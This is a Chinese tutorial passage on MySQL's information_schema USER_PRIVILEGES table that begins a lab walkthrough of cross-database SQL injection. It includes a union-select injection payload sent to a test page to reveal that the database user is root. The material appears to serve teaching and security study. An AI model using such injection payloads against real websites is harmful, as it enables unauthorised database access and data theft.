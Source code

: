 - USER_PRIVILEGES 表

用户权限表。内容源自 mysql.user 授权表。是非标准表。
```bash
mysql> SELECT * FROM USER_PRIVILEGES limit 0,5;
+--------------------+---------------+----------------+--------------+
| GRANTEE            | TABLE_CATALOG | PRIVILEGE_TYPE | IS_GRANTABLE |
+--------------------+---------------+----------------+--------------+
| 'root'@'localhost' | def           | SELECT         | YES          |
| 'root'@'localhost' | def           | INSERT         | YES          |
| 'root'@'localhost' | def           | UPDATE         | YES          |
| 'root'@'localhost' | def           | DELETE         | YES          |
| 'root'@'localhost' | def           | CREATE         | YES          |
+--------------------+---------------+----------------+--------------+
5 rows in set (0.00 sec)

```
<a name="Vv3WH"></a>
### 二、跨库攻击
前提准备
```bash
mysql> create database book;
mysql> use book;
mysql> CREATE TABLE IF NOT EXISTS book(    `book_id` INT UNSIGNED AUTO_INCREMENT,    `book_title` VARCHAR(100) NOT NULL,    `book_author` VARCHAR(40) NOT NULL,    `submission_date` DATE,    PRIMARY KEY ( `book_id` ) )ENGINE=InnoDB DEFAULT CHARSET=utf8;
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| book               |
| mysql              |
| performance_schema |
+--------------------+
mysql> use book;
mysql> show tables;
+----------------+
| Tables_in_book |
+----------------+
| book           |
+----------------+
1 row in set (0.00 sec)

mysql> desc book;
+-----------------+------------------+------+-----+---------+----------------+
| Field           | Type             | Null | Key | Default | Extra          |
+-----------------+------------------+------+-----+---------+----------------+
| book_id         | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| book_title      | varchar(100)     | NO   |     | NULL    |                |
| book_author     | varchar(40)      | NO   |     | NULL    |                |
| submission_date | date             | YES  |     | NULL    |                |
+-----------------+------------------+------+-----+---------+----------------+
4 rows in set (0.00 sec)
```
打开网页进行查询当前数据库的用户<br />`?id=-1%20union%20select%201,user(),3`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623899443313-8395a3df-cebc-4ed3-a097-0c1e26fafb3a.png#clientId=u26b2aef3-4887-4&from=paste&height=269&id=u03e03e2f&originHeight=461&originWidth=1281&originalType=binary&ratio=2&rotation=0&showTitle=false&size=341945&status=done&style=none&taskId=u02bd5f13-9a71-4075-8c6d-473e2c146d4&title=&width=746.5)<br /> 			可以看到当前用户为root拥有最高的权限。
